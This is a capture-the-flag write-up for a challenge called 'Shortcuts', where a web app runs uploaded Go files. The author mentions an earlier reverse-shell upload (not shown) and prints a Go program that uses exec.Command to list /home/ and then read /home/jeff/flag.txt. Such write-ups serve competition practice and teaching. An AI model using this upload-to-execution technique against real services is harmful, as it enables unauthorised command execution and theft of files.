 ``` 
A web app for those who are too lazy to SSH in.

http://web1.cybercastors.com:14437

Author: icinta

```
Navigating to the web site and Here we can upload .go files so as the title of the chall indicates Shortcuts ! i figured out that when u upload a file  the
server will try to execute this command ```go run your_file.go```  So i tried to upload my go file to see if i can run some commands to get the flag location and read it ! 
well first i uploaded a reverse shell but the admin directly deleted it and updated the firewall XDDD so i uploaded this code now as k.go and k 
``` 
package main

import (
    "fmt"
    "os/exec"
    )

func main() {

    fmt.Println("Program Output")
    out, err := exec.Command("ls", "/home/").Output()
    if err != nil {
        fmt.Printf("%s", err)
    }
    output := string(out[:])
    fmt.Println(output)
    fmt.Println("Program Complete")
}    
```
it works ! perfect ! now discovering the we have a Jeff Directory in /home/ , i entred there and found the flag.txt and i read it , i just changed 
```
out, err := exec.Command("cat", "/home/jeff/flag.txt").Output()
```
And yes ! we got Our  flag :D 
